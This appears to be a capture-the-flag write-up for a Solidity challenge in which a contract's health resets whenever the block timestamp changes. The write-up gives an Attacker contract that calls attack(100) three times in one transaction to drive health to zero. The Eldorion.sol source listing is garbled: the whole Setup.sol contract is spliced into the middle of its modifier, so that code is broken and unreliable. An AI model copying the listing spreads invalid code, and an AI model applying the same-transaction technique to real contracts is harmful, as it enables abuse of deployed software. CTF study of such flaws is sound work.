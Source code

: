 ## Challenge Overview

The Eldorion challenge features a smart contract representing a powerful entity with 300 health points.

To solve the challenge, we must defeat Eldorion by reducing its health to exactly zero.
## Source Code
``Eldorion.sol``
```C#
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract Eldorion {
    uint256 public health = 300;
    uint256 public lastAttackTimestamp;
    uint256 private constant MAX_HEALTH = 300;
    
    event EldorionDefeated(address slayer);
    
    modifier eternalResilience() {
        if (block.timestamp > lastAttackTimestamp) {
            health = MAX_HEALTH;// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import { Eldorion } from "./Eldorion.sol";

contract Setup {
    Eldorion public immutable TARGET;
    
    event DeployedTarget(address at);

    constructor() payable {
        TARGET = new Eldorion();
        emit DeployedTarget(address(TARGET));
    }

    function isSolved() public view returns (bool) {
        return TARGET.isDefeated();
    }
}

            lastAttackTimestamp = block.timestamp;
        }
        _;
    }
    
    function attack(uint256 damage) external eternalResilience {
        require(damage <= 100, "Mortals cannot strike harder than 100");
        require(health >= damage, "Overkill is wasteful");
        health -= damage;
        
        if (health == 0) {
            emit EldorionDefeated(msg.sender);
        }
    }

    function isDefeated() external view returns (bool) {
        return health == 0;
    }
}
```
``Setup.sol``
```C#
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import { Eldorion } from "./Eldorion.sol";

contract Setup {
    Eldorion public immutable TARGET;
    
    event DeployedTarget(address at);

    constructor() payable {
        TARGET = new Eldorion();
        emit DeployedTarget(address(TARGET));
    }

    function isSolved() public view returns (bool) {
        return TARGET.isDefeated();
    }
}

```

## Vulnerability Analysis

The key vulnerability in the `Eldorion.sol`  contract lies in its `eternalResilience` modifier:

```javascript
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

This modifier resets the health to maximum (300) if a new block timestamp is detected. 

However, multiple function calls within a single transaction share the same block timestamp, creating an exploitation opportunity.

The `attack` function allows us to deal damage up to 100 points per call, and we will call 3 times to reduce heath to exact 0 and get flag.

```solidity
function attack(uint256 damage) external eternalResilience {
    require(damage <= 100, "Mortals cannot strike harder than 100");
    require(health >= damage, "Overkill is wasteful");
    health -= damage;
    
    if (health == 0) {
        emit EldorionDefeated(msg.sender);
    }
}
```

## Exploitation Strategy

The exploit relies on executing multiple attacks within a single transaction to bypass the health reset mechanism. 

Since we need to deal exactly 300 damage and each attack is limited to 100 damage, we need to execute 3 attack calls in one transaction.

### Attack Implementation

Our `Attacker.sol`contract:

```solidity
contract Attacker {
    IEldorion public target;
    
    constructor(address _target) {
        target = IEldorion(_target);
    }
    
    function exploit() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

This contract makes three consecutive attack calls within a single function execution as a single transaction. This prevents the `eternalResilience` modifier from resetting health between attacks.

## Execution Steps

1. Deploy the Attacker contract with the Eldorion contract address
2. Call the exploit function, which executes three 100-damage attacks in sequence
3. The Eldorion's health is reduced from 300 → 200 → 100 → 0, defeating it

![image](https://github.com/user-attachments/assets/cbc3fe05-5de7-4749-8044-03426cb46f7f)


